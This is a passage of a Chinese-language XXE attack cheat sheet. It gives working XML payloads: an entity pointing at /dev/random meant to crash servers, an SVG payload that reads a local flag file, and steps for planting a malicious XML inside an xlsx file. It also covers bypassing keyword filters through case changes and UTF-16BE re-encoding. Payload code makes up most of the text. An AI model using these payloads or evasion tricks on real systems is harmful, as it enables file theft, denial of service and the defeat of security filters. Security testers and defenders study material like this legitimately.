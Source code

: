此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。
亦或者，如果目标是UNIX系统：

```xml-dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

## XXE 利用场景

### SVG

在xml文档的svg图片标签中插入恶意实体。

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

### excel

利用EXCEL进行XXE攻击。首先用excel创建一个空白的xlsx，然后解压：

```
mkdir XXE && cd XXE
unzip ../XXE.xlsx
```

将解压得到的`[Content_Types].xml`改成恶意xml，再压缩回去：

```
zip -r ../poc.xlsx *
```

## 绕过

### 大小写绕过

利用正则匹配的一些过滤规则，可以尝试使用大小写绕过。

### 编码绕过

比如一些关键词：ENTITY、SYSTEM、file 等被写入黑名单，无法在XML中构造外部实体，可以尝试使用编码绕过，比如 UTF-16BE

```
cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml
```
